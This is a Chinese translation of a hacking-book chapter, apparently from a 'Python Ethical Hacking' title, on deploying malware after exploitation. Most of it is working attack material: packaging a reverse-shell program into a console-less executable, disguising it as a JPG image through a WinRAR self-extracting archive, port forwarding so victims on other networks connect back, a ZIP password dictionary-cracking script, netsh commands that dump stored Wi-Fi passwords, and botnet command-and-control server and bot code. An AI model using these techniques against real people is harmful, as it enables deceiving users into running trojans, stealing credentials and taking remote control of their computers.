

# 第八章：利用后阶段

在*第七章*，《高级恶意软件》中，我们学习了如何为我们的恶意软件程序添加一些高级功能。你可以随意向恶意软件添加任意数量的功能。一旦你完成了代码编写，接下来就是实现部分。你如何打包你的恶意软件并使其可用于部署？在本章中，我们将学习恶意软件部署的以下几个方面：

+   包装恶意软件

+   理解特洛伊木马

+   通过公共 IP 进行攻击

+   破解密码

+   偷窃密码

+   创建僵尸网络

# 包装恶意软件

我们在*第七章*，《高级恶意软件》中开发的程序是一个 Python 文件。它还包含一些依赖项。如果没有物理访问权限，运行一个 Python 文件在受害者机器上是非常困难的。这使得我们的程序不太有用，除非我们能将所有内容打包成一个单独的可执行文件，发送给受害者，当受害者打开它时，它能与黑客的计算机建立反向 shell 连接。

将 Python 代码包装成可运行的可执行文件需要包含程序的所有依赖项。这正是我们使用*虚拟环境*的原因。虚拟环境使得程序能够将所有依赖项集中在一起，这样在我们打包代码时，所有内容，包括 Python 解释器，都被包含在可执行文件中，这样我们就不需要在受害者计算机上安装任何东西，程序就能完美运行。

## 理解 pyinstaller 库

幸运的是，确实有一种方法可以实现之前提到的目标。这是通过使用一个名为`pyinstaller`的 Python 库来完成的。它帮助我们将代码打包成一个可执行的二进制文件，Windows 上的扩展名为`.exe`。要安装`pyinstaller`，请写入以下命令：

pip install pyinstaller

请注意，执行此命令时应启用虚拟环境，以便我们能确保所有必需的依赖项都可用。打开你的受害者程序，启动高级恶意软件并启用虚拟环境。完成后，使用前面的命令安装`pyinstaller`。

如果你还没有创建虚拟环境，可以在存放你的 Python 恶意软件文件的文件夹中运行以下命令来创建：

python -m venv myenv

等待一段时间，直到安装完成。一旦完成，你可以通过启动新终端或运行`activate.bat`脚本（位于脚本文件夹或`myenv`中）来激活环境。

如果你成功激活了 Python 环境，你将看到类似下面的内容：

图 8.1 – 已启用 Python 环境

请注意，我们在高级恶意软件中使用了一个外部依赖项 `pyautogui`。我们也需要在虚拟环境中安装这个依赖。如果你的恶意软件中添加了其他需要外部依赖的功能，也需要安装这些依赖。所有依赖项安装完后，你可以通过 `pip install pyinstaller` 在虚拟环境中安装 `pyinstaller`。如果一切正确无误，输入 `pyinstaller` 在命令终端中，你应该看到如下输出：

图 8.2 – pyinstaller 安装

在 *图 8.2* 中，你可以看到 `pyinstaller` 可用选项的列表。接下来，要创建一个可执行文件，输入 **pyinstaller –onefile advanced_malware.py**。这会将所有代码及其依赖项编译成一个单独的文件，并创建以下文件夹结构：

图 8.3 – 文件夹结构

你需要关注的文件夹是 `dist` 文件夹，它代表了分发（distribution）。你的可执行文件将位于这个文件夹中。现在可以在文件资源管理器中打开这个文件夹：

图 8.4 – 可执行文件

你会找到一个与 Python 文件名相同的可执行文件，它会有 `.exe` 扩展名。现在，如果你在黑客程序运行时直接运行这个文件，你会获得一个回连。不管受害者的系统是否安装了 Python，这个可执行文件都能正常工作。继续运行你的黑客程序，然后双击这个可执行文件打开它。黑客程序看起来会是这样的：

图 8.5 – 黑客程序

同样，在受害者的电脑上，你会看到一个类似的控制台弹窗：

图 8.6 – 在受害者电脑上运行可执行文件

如果你仔细观察 *图 8.6* 顶部，你会看到正在运行的可执行文件的名称。你可以清楚地看到，现在我们运行的是一个可执行文件，而不是 Python 脚本，并且实现了相同的目标。

然而，这里有一个小问题。如果受害者点击这个可执行文件，他们将看到一个命令提示符弹出，显示所有正在发生的事情，这显然不是我们想要的，因为这会让受害者警觉到有异常发生。我们希望这个过程在后台进行，以便受害者完全无法察觉。为了隐藏控制台，我们可以在命令中添加以下参数：

pyinstaller –-onefile –-noconsole advanced_malware.py

如果你在黑客程序运行时点击可执行文件，你会发现屏幕上什么也没有发生，因为没有弹出控制台显示，但在后台会建立连接。你可以通过打开任务管理器来查看可执行文件在后台运行：

图 8.7 – 后台进程

在前面的截图中，你可以看到程序正在运行，并且会建立连接。请注意，如果你的程序在受害者机器上没有正确运行命令，请进入你的受害者程序并找到你执行命令的地方，添加以下参数：`stdin=subprocess.DEVNULL`。完整的命令将如下所示：

output = subprocess.run(["powershell.exe", hacker_command], shell=True, capture_output=True, stdin=subprocess.DEVNULL)

该错误发生的原因是控制台的标准输入没有得到正确处理。如果你在黑客程序中运行任何命令，它应该会正常运行。请看下面的示例，我运行了`dir`命令：

图 8.8 – 在“无控制台”模式下执行命令

现在我们已经创建了一个相当隐秘的恶意软件，它可以在受害者电脑的后台运行并控制受害者的 PC。但这个程序仍然存在一个小问题，它需要用户点击恶意软件的可执行文件，这对受害者来说可能容易也可能困难。如果用户不太懂技术，你可以轻松地诱使他们运行它，反之则会很困难。现在，我们将把讨论转向木马以及它们是如何工作的。接下来我们将在以下部分中构建一个小型木马恶意软件。

# 了解木马

在上一部分中，我们创建了一个可以一键运行的可执行文件，之后你将与受害者建立反向连接，但这需要受害者手动打开并点击可执行文件。现在引入了**木马**的概念。木马是一种隐藏得非常巧妙的恶意软件程序。通常，这些木马恶意软件会与合法软件捆绑或合并，在受害者尝试打开合法应用程序或文件时运行。你会发现，这些病毒很多时候与 PDF 或图像文件合并。将恶意软件隐藏在木马程序中是一个复杂的任务，因为很多时候，你所学到的技巧很快就会在所使用软件的更新中被修补。例如，假设你发现了一个软件漏洞，允许你在文件中嵌入恶意软件。除非你是第一个发现这个漏洞的人，否则很有可能在一两天内就会被修补。

## 向可执行文件添加图标

如果我们查看在上一节中开发的可执行文件，它有一个 Python 图标，这可能让它看起来像一个 Python 可执行文件。这对于黑客攻击来说不是很有帮助，因为它很容易被检测到。一个方法是为可执行文件添加一个图标，使其看起来像一个图片，而不是可执行文件。这会让用户误以为他们在点击打开一张图片，而实际上，他们正在运行可执行文件。我们可以使用`pyinstaller`来添加图标。为此，我们需要一个`.ico`扩展名的图片。

拿一张图片并将其扩展名改为`.ico`。你可以使用任何在线工具来转换它，应该非常简单。我将使用以下示例网站将我的图片转换为 ICO 格式：[online-convert.com](http://online-convert.com)。

转换完图片后，将转换后的文件放入与受害者恶意程序相同的目录中。完成后，你可以使用以下命令为可执行文件添加图标。

你可以将文件命名为`icon.ico`并为`pyinstaller`编写以下命令：

pyinstaller –-onefile –-noconsole –icon=icon.ico advanced_malware.py

如果你打开`dist`文件夹，你会看到，现在，代替 Python 图标，你的可执行文件将有一个不同的图标，这取决于你选择的图片。我的文件看起来是这样的：

图 8.9 – 木马图标

在前面的截图中，你可以看到图标已经改变，现在很容易让受害者点击这个文件。如果你点击这个文件，你会看到它在后台与黑客建立了连接，你可以通过 Windows 的任务管理器来验证这一点。

## 创建你自己的木马

上述木马在某些情况下有效，并且应该足够用了。然而，当用户点击后没有任何反应时，受害者可能会猜到出什么问题了。理想情况下，我们希望当用户点击可执行文件时打开一张图片，并同时与黑客建立反向连接。这样，用户会以为他们只是在打开图片，实际上，他们不仅打开了图片，还为黑客创建了反向 Shell 连接。在本节中，我们将进一步隐藏我们的恶意软件。

要创建一个恶意木马，你将需要四个项目，如下所示：

1.  你的恶意软件可执行文件与图标

1.  *WinRAR*程序

1.  用于图标的`.jpg`格式图片

1.  带有`.ico`扩展名的图标图片

从这个网站安装*WinRAR*软件：https://www.win-rar.com/。

过程应该很简单。完成后，将可执行文件（*1*）、图片（*3*）和图标（*4*）复制到一个新文件夹中。我创建了一个名为`trojan`的新文件夹，并将这三个项目粘贴在其中：

图 8.10 – 木马内容

第一个`advanced_malware.exe`是可执行文件，第二个是图标文件，第三个是用于图标的`.jpg`图片。

现在选择所有三个文件，右键点击选择**添加到压缩包**选项：

图 8.11 – 添加到压缩包

这将打开一个新的对话框。它看起来是这样的：

图 8.12 – WinRAR 对话框

让我们将文件重命名为`wallpaper.jpg`。选择**最佳**压缩方式，并勾选**创建 SFX 压缩包**框。然后进入**高级**标签页，打开**SFX 选项**。

它将打开一个新的对话框。进入**更新**标签页，选择**提取并更新文件**和**覆盖所有文件**：

图 8.13 – SFX 选项

接下来，进入**文本和图标**标签页，选择**浏览**按钮，选择`icon.ico`文件。找到文件并选择它：

图 8.14 – 选择图标

然后进入**模式**标签页，勾选**解压到临时文件夹**，同时为**静默模式**选择**隐藏所有**：

图 8.15 – SFX 模式

最后，进入**设置**标签页，在**提取后运行**字段中写入以下内容：

图 8.16 – 提取后运行

这样可以在提取完成后按顺序运行文件。首先，我们会打开实际展示给受害者的图片，同时在后台运行恶意软件，从而给黑客建立反向连接。

现在一切都已按我们的需求设置完毕。只需点击**确定**创建压缩文件，它将以`wallpaper.jpg`为文件名在同一文件夹中创建一个新文件。表面上看，它像是一个普通的图片文件，但如果你打开它，你会看到它会创建一个反向连接，前提是你已经运行了黑客服务器：

图 8.17 – 木马

在*图 8.16*中，你可以看到我们创建了一个名为`wallpaper.jpg`的木马。如果你仔细看，可以看到它的类型是**应用程序**，但在 Windows 中，扩展名默认是隐藏的，我们将`wallpaper.jpg`添加到了它的名字中，因此它看起来像一个图片。如果你点击该图片，它将打开图片，并同时与黑客建立反向连接。试试看吧。我们当前的恶意软件攻击仅在私有 IP 上有效。接下来的部分，我们将学习如何在公共 IP 上执行相同的攻击。

# 在公共 IP 上攻击

到目前为止，我们所有的攻击都发生在本地网络中。这要求你作为黑客和受害者必须连接到同一个网络。然而，在许多攻击场景中，情况并非如此。这时，公共 IP 地址就显得非常重要了。在讨论网络基础时，我们已经了解了公共和私有 IP 地址。为了执行成功的攻击，我们需要知道黑客的公共 IP。在黑客机器上，你可以通过访问[google.com](http://google.com)，输入`my public ip`，这样会显示你的公共 IP 地址，前提是你没有使用任何 VPN 或网络遮掩工具。它将是一个类似的 32 位地址，由你的 ISP 提供。我的公共 IP 是`31.38.10.X`，最后 8 位由于隐私问题被屏蔽。你的 IP 地址会根据你所处的位置不同而有所不同。找到它应该不会很难。一旦你得到了公共 IP 地址，去受害者程序中，输入黑客的公共 IP，而不是黑客的私有 IP。

我们的谜题的第一部分完成了。接下来的部分是确保数据包能够成功到达黑客机器。黑客必须能够在指定的端口接收数据包。为此，黑客必须在其路由器设置中启用*端口转发*。大多数路由器的端口转发默认是关闭的，以确保安全。然而，如果你知道路由器面板的密码，你就可以进行设置。为了访问这些设置，找到你的 Wi-Fi 路由器，背面通常会有一张贴纸，上面写有路由器的服务器地址。它可能是`192.168.1.1`或者类似的地址。请注意，这取决于你使用的具体路由器，我无法为你提供确切的地址。路由器上还会写有用户名和密码。进入你的路由器设置页面。

一旦进入你的路由器设置，找到**端口转发**设置。这些设置会根据你的路由器有所不同。在这里，你将看到一个选项，可以选择将数据包转发到哪个端口。输入你为黑客程序使用的端口号并保存设置。现在，你已经完成了设置，能够通过公共 IP 进行攻击了。这将帮助你攻击不在本地网络中的受害者。

# 破解密码

在本节中，我们将学习如何使用密码数据库破解受密码保护的文件。我们将在本节中尝试破解一个 ZIP 文件。ZIP 文件是一种二进制格式，用于存储以压缩格式保存的文件，并且可以设置密码保护。我们将进行字典攻击。首先让我们了解什么是字典攻击！

字典攻击是一种攻击方式，黑客通过使用一组预定义的密码来猜测受害者的密码。他们通常有一个包含大量密码的数据库文件，并尝试使用这些密码中的一个来看受害者的密码是否与列表中的密码匹配。这个密码列表通常来自于被泄露的密码，这些密码来源于被攻破的网站和其他论坛。因此，你绝不应该为多个网站重复使用相同的密码。如果你在一个网站使用了相同的密码，而该网站被攻破，那么你的所有密码很可能都会被泄露。

你可以在这里找到最常用的密码列表：[`github.com/danielmiessler/SecLists.`](https://github.com/danielmiessler/SecLists)

)

该列表包含约 1000 万个密码，并且会定期更新。如果用户使用的密码存储在这个文件中，你就可以轻松破解它。

我从前面提到的 GitHub 仓库下载了一个文件。让我们来看看它的内容。

创建一个新项目，并将仓库中的密码文件存储在该项目中。同时，将密码保护的 ZIP 文件复制到该项目中。我创建了一个名为`secret file.txt`的虚拟文件，它是 ZIP 格式的并且受密码保护。密码是`qwerty`，该密码也位于密码数据库文件中。密码文件内容如下：

图 8.18 – 密码数据库文件

要破解这个文件，我们需要使用`zipfile` Python 库，它是 Python 标准库的一部分，因此无需安装。可以通过以下方式将其导入到你的脚本中：

import zipfile

encrypted_filename= "secret file.zip"

zFile = zipfile.ZipFile(encrypted_filename)

我们将创建一个 ZIP 文件对象，并将加密后的文件名传递给它。接下来，我们还需要以读取模式打开密码数据库文件，以便可以匹配密码：

passFile = open("passwords.txt", "r")

for line in passFile.readlines():

test_password = line.strip("\n").encode('utf-8')

try:

print(test_password)

zFile.extractall(pwd=test_password)

print("找到匹配项")

break

except Exception as err:

pass

在前面的代码中，我们逐一读取密码并进行测试。请注意，为了测试一个密码，它应该是二进制格式，而不是字符串格式。如果密码不匹配，我们只需引发异常并继续测试下一个密码。如果匹配，我们会打印出**找到匹配项**的语句，并跳出循环。如果你查看目录，你会看到一个新文件夹被创建，这个文件夹包含未加密的文件：

图 8.19 – 密码破解

在这里，我们正在测试各种密码，当密码匹配时，我们提取文件并打破循环，正如你可以清楚地看到密码是`qwerty`。在本节中，我们学会了如何破解密码保护的文件。在接下来的章节中，我们将学习如何创建僵尸网络，以及它们如何对我们有用。

# 偷取密码

在本节中，我们将学习如何窃取存储在受害者计算机上的 Wi-Fi 密码。请注意，我们已经讨论过如何使用我们的黑客程序在 Windows 机器上执行命令。我们可以利用这个程序来获取 Wi-Fi 密码。需要注意的是，你的虚拟操作系统可能没有安装 Wi-Fi 驱动程序。我已经安装了该驱动程序。如果你愿意，你可以使用你的主机计算机来完成此任务。

为了访问受害者计算机上存储的接入点，你需要运行以下命令：

netsh wlan show profiles

如果你在命令提示符中运行此命令，你将看到所有与你的计算机连接过的接入点。但我们想要访问的是密码，而不是接入点。以下是我计算机的截图：

图 8.20 – 已连接的接入点

为了获取密码，你需要写出接入点的名称，并为命令提供额外的参数，`key=clear`。完整的命令如下所示：

netsh wlan show profiles "POCO X3 NFC" key=clear

你将看到类似的输出：

图 8.21 – 获取密码

**安全设置**中的最后一个字段是此接入点的明文密码。如果你的虚拟操作系统（Windows）上安装了 Wi-Fi 驱动程序，你也可以使用恶意软件程序来运行这些命令。

# 创建僵尸网络

在*第七章*中，*高级恶意软件*，我们开发了一个包含黑客程序和受害者程序的恶意软件程序。当你想要对特定目标进行攻击时，这非常有用。然而，在很多情况下，你可能需要为黑客程序提供一个*指挥和控制中心*，并让多个受害者程序在不同的计算机上运行并与黑客程序通信，而黑客能够远程控制这些设备。这些就是我们所说的**僵尸网络**。僵尸网络是运行在不同机器上的小程序，它们与一个指挥控制中心通信。它们被用于许多恶意目的，例如**分布式拒绝服务**（**DDoS**）攻击，通过在同一时间生成数百万次请求来使某个网站宕机，或者利用计算机的资源进行加密货币挖掘，等等。

让我们开始创建自己的僵尸网络，并创建不同的 bot 与指挥控制中心进行通信。我们将编写两个程序：一个名为`CnC.py`，用作指挥控制中心。它的功能与黑客程序类似。另一个程序将命名为`bot1.py`。你可以创建任意数量的 bot，不过为了演示，我将只创建一个 bot。

创建一个名为`bots`的新项目，并创建一个名为`CnC.py`的新 Python 文件。

这应该在 Kali 机器上创建。

我们将需要之前使用过的`socket`库。让我们从导入开始：

import socket

from threading import Thread

import time

由于我们希望创建多个 bot，我们为每个 bot 使用线程。线程用于创建一个并行运行的单独任务。

接下来，我们将创建一个线程和客户端的列表。客户端在我们这个例子中将是 bot：

threads = []

clients = []

接下来，我们将创建一个名为`listen_for_bots()`的函数，顾名思义，它将监听传入的 bot 连接：

def listen_for_bots(port):

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.bind(("", port))

sock.listen()

bot, bot_address = sock.accept()

clients.append(bot)

这和我们之前编写黑客程序时的操作非常相似。唯一的区别是，一旦客户端连接，我们会将其添加到`client`列表中，这样我们就可以像在黑客程序中一样利用这个连接做各种事情。

现在，我们定义一个`main()`函数，所有的逻辑将在这里处理：

def main():

print("[+] 服务器 bot 等待传入连接")

startig_port = 8085

bots = 3

我们定义了要使用的端口。请注意，这是一个`starting_port`，我们将为不同的客户端使用不同的端口。我们会简单地在每个新客户端上加 1。变量`bots=3`表明我们只想连接三个 bot，不过你可以根据需要添加任意数量的客户端：

for i in range(bots):

t = Thread(target=listen_for_bots, args=(i + startig_port,), daemon=True)

threads.append(t)

t.start()

接下来，我们将在线程中运行这些任务。`Daemon=True`意味着我们希望将这些任务作为后台进程运行。然后，我们将每个线程添加到列表中，以便可以访问这些线程。

接下来，我们将为指挥控制中心运行一个循环。当客户端连接时，我们会显示所有客户端，并让黑客选择他们想要交互的客户端。然后，我们会为每个 bot 运行一个内部循环，通过访问列表中的元素来帮助我们向每个 bot 单独发送消息。在这里，你可以为 bot 定义自己的逻辑。你可以向 bot 发送命令并在 bot 所在的 PC 上执行这些命令。其余的功能可以由你根据需求自行定义。这里我们只是发送了一条消息。一旦达成目标，你可以将该客户端从列表中移除：

run_cnc = True

while run_cnc:

if len(clients) != 0:

for i, c in enumerate(clients):

print("\t\t", i, "\t", c.getpeername())

selected_client = int(input("[+] 通过索引选择客户端："))

bot = clients[selected_client]

run_bot = True

while run_bot:

msg = input("[+] 输入消息：")

msg = msg.encode()

bot.send(msg)

if msg.decode() == "exit":

run_bot = False

status = bot.recv(1024)

if status == "disconnected".encode():

bot.close()

clients.remove(bot)

print("数据已发送")

else:

print("[+] 没有客户端连接")

ans = input("[+] 你想退出吗？按[y/n] ")

if ans == "y":

run_cnc = False

else:

run_cnc = True

现在我们已经为命令与控制中心定义了一个基本结构。完整的机器人代码可以在以下链接找到：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py)

接下来，我们将定义我们的机器人逻辑。

进入受害者计算机并创建一个名为`bot1.py`的新文件。我们将创建一个套接字对象，并尝试使用黑客的 IP 与黑客进行通信。这个步骤类似于我们之前开发的恶意软件程序：

import socket

if __name__ == "__main__":

print("[+] 正在连接服务器")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("192.168.0.11", 8085))

接下来，我们将为`run_bot`创建一个循环，尝试接收 CNC 发送的消息。一旦消息接收，我们可以在这里定义自己的逻辑。这里我们仅打印消息，但你可以根据需要添加功能。一旦 CNC 发送退出消息，我们可以简单地将客户端机器人从服务器中断开。代码如下：

run_bot = True

while run_bot:

communicate_bot = True

while communicate_bot:

msg = s.recv(1024)

msg = msg.decode()

print("指令中心说：", msg)

if msg == "exit":

communicate_bot = False

# ans = input("[+] 是否希望保持连接：")

ans = "connected"

if ans == "no":

status = "disconnected"

s.send(status.encode())

run_bot = False

else:

status = "conntected".encode()

s.send(status)

s.close()

完整的`bot1.py`代码请参见以下链接：

https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/bot1.py

在本节中，我们学习了如何为机器人网络客户端创建一个命令与控制中心。你可以添加任意数量的客户端，并使用你的 CNC 程序统一控制它们。

# 总结

在本章中，我们学习了一些成功部署恶意软件程序的方法。恶意软件程序的一个重要方面是它的隐蔽性。本章重点讲解了如何将恶意软件隐藏在图像中。我们学习了通过公共 IP 进行恶意软件攻击，以及黑客如何攻击不在同一网络中的受害者。接着，我们学习了如何使用字典攻击破解密码保护的文件。最后，我们学习了如何创建一个用于僵尸网络攻击的指挥控制中心。这些攻击允许黑客通过一个程序控制大量分布式设备。通过本章的学习，你应该能够创建木马、执行公共 IP 攻击，并创建自己的僵尸网络。在下一章中，我们将学习如何保护作为黑客的在线身份，以及这一点在成功攻击中的重要性。下一章见！
